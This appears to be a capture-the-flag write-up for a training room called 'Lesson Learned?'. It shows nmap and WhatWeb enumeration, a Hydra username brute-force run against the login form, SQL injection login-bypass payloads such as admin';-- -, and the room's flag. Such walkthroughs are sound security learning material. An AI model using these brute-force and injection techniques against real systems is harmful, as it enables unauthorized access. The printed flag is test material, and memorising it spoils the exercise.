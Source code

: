``Host``: 10.10.227.137

## Enumeration

```r
sudo nmap -sS -sC 10.10.227.137 --open
[sudo] password for dcyberguy: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-05 11:10 EDT
Nmap scan report for 10.10.227.137
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
| ssh-hostkey: 
|   3072 2e:54:89:ae:f7:91:4e:33:6e:10:89:53:9c:f5:92:db (RSA)
|   256 dd:2c:ca:fc:b7:65:14:d4:88:a3:6e:55:71:65:f7:2f (ECDSA)
|_  256 2b:c2:d8:1b:f4:7b:e5:78:53:56:01:9a:83:f3:79:81 (ED25519)
80/tcp open  http
|_http-title: Lesson Learned?

Nmap done: 1 IP address (1 host up) scanned in 6.99 seconds
```

From the enumeration gathered I found two services running and two different protocols
``Found:``
SSH running on port 22
HTTP running on port 80

#### Enumerating using whatsweb
```r
whatweb http://10.10.227.137 -v
WhatWeb report for http://10.10.227.137
Status    : 200 OK
Title     : Lesson Learned?
IP        : 10.10.227.137
Country   : RESERVED, ZZ

Summary   : Apache[2.4.54], HTTPServer[Debian Linux][Apache/2.4.54 (Debian)], PasswordField[password]

Detected Plugins:
[ Apache ]
	<< snip >>

	Version      : 2.4.54 (from HTTP Server Header)
	Google Dorks: (3)
	Website     : http://httpd.apache.org/

[ HTTPServer ]
	HTTP server header string. This plugin also attempts to 
	identify the operating system from the server header. 

	OS           : Debian Linux
	String       : Apache/2.4.54 (Debian) (from server string)

[ PasswordField ]
	find password fields 

	String       : password (from field name)

HTTP Headers:
	HTTP/1.1 200 OK
	Date: Sun, 05 May 2024 15:13:34 GMT
	Server: Apache/2.4.54 (Debian)
	Vary: Accept-Encoding
	Content-Encoding: gzip
	Content-Length: 597
	Connection: close
	Content-Type: text/html; charset=UTF-8
```
``Found:``
- HTTP server is running Debian, Linux
- Also running on Apache 2.4.54

Let's visit the webpage. On navigating to http://10.10.227.137 we can see a login form screen. I'll try a random credential ``admin:admin``. Though it didn't get us through because of course it is the wrong username:password combination, but it gave us a hint on the error message ``Invalid username and password`` and the payload raw summary as ``username=admin&password=admin``.

#### Using SQL Command
Let's try some SQL command that we use to bypass a login form like:
- Auth Bypass: admin';-- -
- SELECT * FROM users WHERE username = 'admin'; -- -' AND password = 'password'
- Boolean: ' AND '1'='1 / ' AND '1'='2
- SELECT * FROM articles WHERE author = 'admin' AND '1'='1'

For most of the above commands to be successful, we need a ``username``. Let's visit ``Hydra`` to try a username brute force.

```r
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p asdf 10.10.227.137 http-post-form "/:username=^USER^&password=^PASS^:Invalid username and password." 
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-05 12:28:09
[DATA] max 16 tasks per 1 server, overall 16 tasks, 8295455 login tries (l:8295455/p:1), ~518466 tries per task
[DATA] attacking http-post-form://10.10.227.137:80/:username=^USER^&password=^PASS^:Invalid username and password.
[80][http-post-form] host: 10.10.227.137   login: martin   password: asdf
[80][http-post-form] host: 10.10.227.137   login: patrick   password: asdf
[80][http-post-form] host: 10.10.227.137   login: stuart   password: asdf
[80][http-post-form] host: 10.10.227.137   login: marcus   password: asdf
[80][http-post-form] host: 10.10.227.137   login: kelly   password: asdf
[80][http-post-form] host: 10.10.227.137   login: arnold   password: asdf
[80][http-post-form] host: 10.10.227.137   login: Martin   password: asdf
[80][http-post-form] host: 10.10.227.137   login: karen   password: asdf
[80][http-post-form] host: 10.10.227.137   login: Patrick   password: asdf
```
We are able to find some usernames that I would enumerate one after an other to discovered the right username.

By using the SQL injection: admin';-- -  on the username field (replace 'admin' with the username)

We were able to obtain the flag using the ``kelly`` user.

``Flag:`` # THM{aab02c6b76bb752456a54c80c2d6fb1e}


